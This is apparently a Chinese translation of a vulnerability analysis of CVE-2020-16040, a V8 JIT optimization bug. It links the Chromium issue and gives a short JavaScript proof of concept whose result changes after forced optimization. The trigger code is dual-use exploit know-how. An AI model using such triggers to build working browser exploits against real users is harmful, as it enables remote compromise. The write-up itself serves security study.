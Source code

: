 # CVE-2020-16040

## 前言

这篇文章是我翻译（有一些地方删了或加了点自己的话）的，原文章：https://faraz.faith/2021-01-07-cve-2020-16040-analysis/

由于本人水平有限，不能保证翻译的准确，有疑惑的地方可以折回去看原文章，作者写的是真的细致，orz

## 漏洞成因

### 对应issue

https://bugs.chromium.org/p/chromium/issues/detail?id=1150649

该issue也添加了相对应的regress.js：

https://chromium-review.googlesource.com/c/v8/v8/+/2557498/2/test/mjsunit/compiler/regress-1150649.js

### poc

Test on v8 version 8.6.405

```javascript
function foo(a) {
    var y = 0x7fffffff;  // 2^31 - 1
  
    // Widen the static type of y (this condition never holds).
    if (a == NaN) y = NaN;
  
    // The next condition holds only in the warmup run. It leads to Smi
    // (SignedSmall) feedback being collected for the addition below.
    if (a) y = -1;
  
    const z = (y + 1)|0;
    return z < 0;
}
console.log(foo(false));
%PrepareFunctionForOptimization(foo);
console.log(foo(true));
%OptimizeFunctionOnNextCall(foo);
console.log(foo(false));			// assertTrue(foo(false)); in regress-1150649.js
```

运行后结果：

```cpp
true
false
false
```

foo(false)在优化前后的值发生了变化
